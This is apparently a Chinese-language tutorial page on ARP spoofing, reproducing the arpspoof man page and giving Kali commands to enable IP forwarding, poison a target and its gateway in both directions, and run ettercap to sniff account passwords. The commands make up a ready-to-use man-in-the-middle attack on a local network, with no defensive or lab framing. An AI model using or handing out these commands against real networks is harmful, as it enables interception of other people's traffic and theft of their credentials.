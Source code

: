 ```bash
名字 
       arpspoof - 截获交换局域网中的数据包

用法
       arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host

描述
       arpspoof通过伪造的ARP响应包改变局域网中从目标主机（或所有主机）到另一个主机（host）的数据包转发路径。这是交换局域网中嗅探网络流量的一种极为有效的方法。
       内核IP转发（或如fragrouter这样的、用户层面的、能完成同样功能的软件）必须提前开启。

参数
       -i interface
              指定要使用的接口（即指定一块网卡）

       -c own|host|both
              指定在恢复ARP配置时使用的硬件地址；当在清理（cleaning up）时，数据包的源地址可以用自己的也可以用主机（host）的硬件地址。
              使用伪造的硬件地址可能导致某些配置下的交换网络、AP网络或桥接网络通信中断，然而它比起默认值————使用自己的硬件地址要工作地更为可靠。

       -t target
              指定一个特殊的、将被ARP毒化的主机（如果没有指定，则认为是局域网中所有主机）。重复可以指定多个主机。

       -r     毒化两个主机（目标和主机（host））以捕获两个方向的网络流量。（仅仅在和-t参数一起使用时有效）

       host   host是你想要截获数据包的主机 (通常是网关)。
```



进行arp欺骗前使用如下命令开启ip转发功能（kali下）

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

/proc/sys/net/ipv4/ip_forward是配置文件，默认内容为0，表示IP转发是关闭的，，使用上述命令将该配置文件的内容改写为1，表示开启IP转发。开启IP转发后 流量会经过kali的主机而后再去到目标所以这时开启arpspoof 那么目标就不会断网，因为流量通过了kali主机那么我们就可以拦截相关数据。



### 常用命令：

开启IP转发之后，同样使用断网攻击的命令进行ARP欺骗：

```bash
 arpspoof   -i   网卡   -t    目标IP    网关
 反向欺骗：
 arpspoof   -i   网卡   -t    网关    目标IP
```



```bash
ettercap -Tq -i eth0 #进行账号密码嗅探
```

